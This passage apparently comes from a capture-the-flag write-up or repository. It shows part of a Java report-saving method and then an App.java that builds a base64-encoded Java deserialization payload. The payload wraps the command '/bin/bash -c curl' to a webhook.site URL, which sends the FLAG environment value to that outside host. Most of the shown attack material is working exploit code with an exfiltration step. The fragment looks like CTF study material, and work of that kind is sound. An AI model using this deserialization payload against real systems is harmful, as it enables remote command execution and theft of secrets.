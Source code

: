 ```java
    File reportsDirectory = reportsDirectoryPath.toFile();
    if(!reportsDirectory.exists() && !reportsDirectory.mkdir())
      return "Sorry, a new folder couldn't be created for your reports";
    File reportFile = PathSecurityUtil.GetSafePath(reportsDirectoryPath, subject).toFile();
    if(!reportFile.exists())
    {
      if(!reportFile.createNewFile())
        return "Sorry, the new report could not be saved";
    }
    try (FileWriter reportFileWriter = new FileWriter(reportFile)) {
      reportFileWriter.write(message);
    }

    return "Thank you for your submission!";
  }
}

```

My `/src/com/example/developershubris/App.java` (in a `Java` project with `commons-codec-1.15.jar` in `/bin` and `Command.java` in `/src/com/example/developershubris/Command.java`):

```java
package com.example.developershubris;

import java.io.File;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.io.OutputStream;
import java.nio.file.Paths;

import org.apache.commons.codec.binary.Base64OutputStream;
import org.apache.commons.codec.binary.Base64InputStream;

public class App {
    public static void main(String[] args) throws Exception {
        File errorFile = Paths.get("./payload").toFile();
        Command cmd = new Command("/bin/bash -c curl http://webhook.site/my_unique_uuid?c=${FLAG}");
        try {
            FileOutputStream fileOut = new FileOutputStream(errorFile);
            OutputStream b64Out = new Base64OutputStream(fileOut);
            ObjectOutputStream out = new ObjectOutputStream(b64Out);
            out.writeObject(cmd);
            // close all
            out.close();
            b64Out.close();
            fileOut.close();
        } catch (Exception e) {
            System.out.println(e);
        }

    Exception errorObject = null;
        try {
            FileInputStream fileIn = new FileInputStream(errorFile);
            Base64InputStream b64In = new Base64InputStream(fileIn);
            ObjectInputStream in = new ObjectInputStream(b64In);
            errorObject = (Exception) in.readObject();
        } catch (Exception e) {
            System.out.println(e);
        }
    }
```